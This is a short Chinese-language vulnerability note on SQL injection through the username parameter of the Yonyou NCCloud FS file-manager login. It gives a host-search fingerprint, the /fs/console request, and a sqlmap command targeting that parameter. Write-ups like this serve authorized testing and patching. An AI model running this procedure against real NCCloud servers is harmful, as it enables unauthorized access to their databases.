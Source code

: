 # 用友 NCCloud FS文件管理SQL注入

## 漏洞描述

用友 NCCloud FS文件管理登录页面对用户名参数没有过滤，存在SQL注入

## 漏洞影响

<a-checkbox checked>用友 NCCloud</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"NCCloud"</a-checkbox></br>

## 漏洞描述

登录页面如下



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/yongyou-13.png)

在应用中存在文件服务器管理登录页面

```plain
http://xxx.xxx.xxx.xxx/fs/
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/yongyou-14.png)



登录请求包如下



```plain
GET /fs/console?username=123&password=%2F7Go4Iv2Xqlml0WjkQvrvzX%2FgBopF8XnfWPUk69fZs0%3D HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: JSESSIONID=2CF7A25EE7F77A064A9DA55456B6994D.server; JSESSIONID=0F83D6A0F3D65B8CD4C26DFEE4FCBC3C.server
Connection: close
```

使用Sqlmap对`username参数` 进行SQL注入

```plain
sqlmap -r sql.txt -p username
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/yongyou-15.png)